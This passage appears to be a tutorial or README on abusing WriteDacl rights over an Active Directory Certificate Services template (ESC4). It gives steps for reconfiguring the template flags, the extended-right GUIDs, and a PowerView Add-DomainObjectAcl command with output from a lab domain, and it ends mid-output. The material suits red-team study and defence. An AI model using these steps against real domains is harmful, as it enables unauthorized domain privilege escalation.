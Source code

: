 

## Abusing WriteDacl ACE

### Procedure
For domain escalation, follow the following steps to abuse WriteDacl:

1. Get Enrollment rights for the vulnerable template (ESC4)

2. Disable `PEND_ALL_REQUESTS` flag in `mspki-enrollment-flag` for disabling Manager Approval

3. Set `mspki-ra-signature` attribute to `0` for disabling Authorized Signature requirement

4. Enable `ENROLLEE_SUPPLIES_SUBJECT` flag in `mspki-certificate-name-flag` for specifying high privileged account name as a SAN

5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication

6. Request a high privileged certificate for authentication and perform Pass-The-Ticket attack

Shouldn't we edit `pkiextendedkeyusage` attribute and `mspki-ra-application-policies` attribute?
As far as I tested, it is not required.
This is because if the `mspki-certificate-application-policy`, `pkiextendedkeyusage` and `mspki-ra-application-policies` do not match, then `mspki-certificate-application-policy` takes precedence in the use of the certificate.　
Therefore, for Domain Escalation, you only need to edit `mspki-certificate-application-policy` to abuse vulnerable certificate in this case.

### Getting Enrollment Right
Now we only have WriteDacl for ESC4 template and cannot enroll the template.
Generally, certificate templates have 2 extended rights:

+ __`Certificate-Enrollment`__: This extended right corresponds "Enroll" right. According to the [Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/adschema/r-certificate-enrollment), the corresponding GUID is `0e10c968-78fb-11d2-90d4-00c04f79dc55`.

+ __`Certificate-AutoEnrollment`__: This extended right corresponds "Autoenroll" right. According to the [Microsoft Docs](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/ece0ab37-35bf-41d0-a30b-64f9a5792f59), the corresponding GUID is `a05b8cc2-17bc-4802-a710-e7c15ab866a2`.

To get enrollment right for the template, we need to add `Certificate-Enrollment` (GUID: `0e10c968-78fb-11d2-90d4-00c04f79dc55`) extended right to the target certificate.

> __NOTE__: If you want to add all extended rights (in this case, `Certificate-Enrollment` and `Certificate-AutoEnrollment`) at once, use `00000000-0000-0000-0000-000000000000` as GUID. It corresponds to all extended rights.

We can get `Certificate-Enrollment` extended right for the vulnerable template (ESC4) by `Add-DomainObjectAcl` function of PowerView as follows:

```
PS C:\Tools> Add-DomainObjectAcl -TargetIdentity ESC4 -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=contoso,DC=local" -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/DC=CONTOSO,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=Domain Users)(name=Domain
Users)(displayname=Domain Users))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local 'All' on
CN=16436712.C9FC364DA743F327A81BD9832F3BBFD3,CN=OID,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local rights GUID
```